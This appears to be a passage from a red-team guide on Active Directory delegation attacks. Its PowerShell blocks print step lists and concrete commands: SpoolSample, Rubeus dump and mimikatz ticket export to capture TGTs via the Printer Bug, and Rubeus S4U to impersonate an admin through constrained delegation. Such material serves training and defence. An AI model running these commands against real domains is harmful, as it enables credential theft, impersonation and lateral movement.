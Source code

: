 #### **Printer Bug Exploitation**
```powershell
# Printer Bug exploitation for TGT capture
Write-Host "=== PRINTER BUG EXPLOITATION ===" -ForegroundColor Green

Write-Host "Attack Scenario: Printer Bug + Unconstrained Delegation" -ForegroundColor Red
Write-Host "`nHow it works:" -ForegroundColor Yellow
Write-Host "  1. Enable unconstrained delegation on your computer" -ForegroundColor White
Write-Host "  2. Trigger authentication via MS-RPRN (Printer Bug)" -ForegroundColor White
Write-Host "  3. Capture TGTs from connecting users" -ForegroundColor White
Write-Host "  4. Use captured TGTs for lateral movement" -ForegroundColor White

Write-Host "`nPrinter Bug Commands:" -ForegroundColor Yellow
Write-Host "  # Trigger authentication from target DC" -ForegroundColor Gray
Write-Host "  SpoolSample.exe DC01.cybercorp.local ATTACKER-PC.cybercorp.local" -ForegroundColor White

Write-Host "`nTGT Extraction:" -ForegroundColor Yellow
Write-Host "  # Extract captured TGTs" -ForegroundColor Gray
Write-Host "  Rubeus.exe dump /nowrap" -ForegroundColor White
Write-Host "  mimikatz # sekurlsa::tickets /export" -ForegroundColor White

Write-Host "`nAttack Advantages:" -ForegroundColor Yellow
Write-Host "  - No user interaction required" -ForegroundColor White
Write-Host "  - Can target specific users" -ForegroundColor White
Write-Host "  - Stealthy authentication trigger" -ForegroundColor White
```

### **2. Constrained Delegation Abuse**

#### **Service Impersonation Attack**
```powershell
# Constrained delegation service impersonation
Write-Host "=== CONSTRAINED DELEGATION SERVICE IMPERSONATION ===" -ForegroundColor Green

Write-Host "Attack Scenario: Service Impersonation via Constrained Delegation" -ForegroundColor Red
Write-Host "`nPrerequisites:" -ForegroundColor Yellow
Write-Host "  1. Control account with constrained delegation" -ForegroundColor White
Write-Host "  2. Target service in delegation scope" -ForegroundColor White
Write-Host "  3. Valid user credentials for impersonation" -ForegroundColor White

Write-Host "`nAttack Steps:" -ForegroundColor Yellow
Write-Host "  1. Identify constrained delegation scope" -ForegroundColor White
Write-Host "  2. Compromise the delegation account" -ForegroundColor White
Write-Host "  3. Use S4U2Self for service ticket" -ForegroundColor White
Write-Host "  4. Impersonate high-privilege user" -ForegroundColor White
Write-Host "  5. Access target service" -ForegroundColor White

Write-Host "`nRubeus Commands:" -ForegroundColor Yellow
Write-Host "  # Request service ticket for specific user" -ForegroundColor Gray
Write-Host "  Rubeus.exe s4u /user:delegationaccount /rc4:hash /service:targetservice /impersonateuser:admin" -ForegroundColor White

Write-Host "`nTarget Services:" -ForegroundColor Yellow
Write-Host "  - CIFS (File access)" -ForegroundColor Red
Write-Host "  - LDAP (Directory access)" -ForegroundColor Red
Write-Host "  - RPCSS (Remote procedure calls)" -ForegroundColor Red
Write-Host "  - HTTP (Web services)" -ForegroundColor White
```
